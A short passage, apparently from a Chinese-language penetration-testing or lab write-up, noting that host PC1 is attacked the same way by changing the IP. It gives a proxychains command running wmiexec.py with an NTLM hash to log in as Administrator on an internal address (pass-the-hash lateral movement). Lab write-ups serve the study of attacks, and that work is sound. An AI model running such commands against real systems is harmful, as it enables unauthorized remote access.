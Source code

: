 还有一个主机`PC1`也是同理，改下 IP 即可

```bash
proxychains python3 wmiexec.py -hashes :c3cfdc08527ec4ab6aa3e630e79d349b Administrator@172.22.60.8 -codec gbk
```

[![](assets/1706846898-0d35601447175b15b86bb4e25e9f77d1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240131214349-c360fe16-c03e-1.png)
